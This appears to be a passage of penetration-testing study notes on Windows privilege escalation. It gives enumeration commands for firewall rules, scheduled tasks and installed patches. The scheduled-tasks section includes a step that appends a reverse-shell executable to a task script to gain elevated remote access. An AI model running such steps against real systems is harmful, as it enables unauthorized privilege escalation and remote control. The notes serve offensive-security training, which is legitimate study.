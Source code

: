 ## Firewall Status and Rules

&gt; For example, if a network service is not remotely accessible because it is blocked by the firewall, it is generally accessible locally via the loopback interface. If we can interact with these services locally, we may be able to exploit them to escalate our privileges on the local system.
&gt; In addition, we can gather information about inbound and outbound port filtering during this phase to facilitate port forwarding and tunneling when it's time to pivot to an internal network.

### Firewall profile

```powershell
C:\Cas&gt; netsh advfirewall show currentprofile
```

### Firewall rules

```powershell
C:\Cas&gt; netsh advfirewall firewall show rule name=all
```

## Scheduled Tasks

List all scheduled tasks

```powershell
C:\Cas&gt; schtasks /query /fo LIST /v

C:\Cas&gt; Get-ScheduledTask | where {$_.TaskPath -notlike “\Microsoft*”} | ft TaskName,TaskPath,State
```

&gt; Windows can be configured to run tasks at specific times, periodically (e.g. every 5 mins) or when triggered by some event (e.g. a user logon). Tasks usually run with the privileges of the user who created them, however administrators can configure tasks to run as other users, including SYSTEM.

    Let’s append shell.exe to this script to get back reverse shell on machine

```powershell
C:\Cas&gt; echo C:\Cas\shell.exe &gt;&gt; C:\&lt;path-scheduled-tasks&gt;
```

## Installed Applications and Patch Levels

### Enumeration

List applications (use Windows Installer)

```powershell
C:\Cas&gt; wmic product get name, version, vendor
```

List system-wide updates

```powershell
C:\Cas&gt; wmic qfe get Caption, Description, HotFixID, InstalledOn
```

